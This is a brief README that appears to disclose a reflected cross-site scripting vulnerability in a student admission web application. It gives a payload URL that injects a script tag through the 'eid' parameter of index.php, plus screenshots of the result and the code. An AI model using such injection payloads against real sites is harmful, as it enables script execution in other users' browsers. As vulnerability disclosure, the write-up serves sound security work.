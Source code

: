 # Student-Admission-Xss

### Xss Payload

```
index.php?a=edit&eid=8</h3><script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/72059221/182757706-14a19be6-c7b9-4dd6-b181-7ea452ec13d2.png)

#### Code

![image](https://user-images.githubusercontent.com/72059221/182757859-313f5730-5ff0-489b-b9ef-a56f1846c0b4.png)

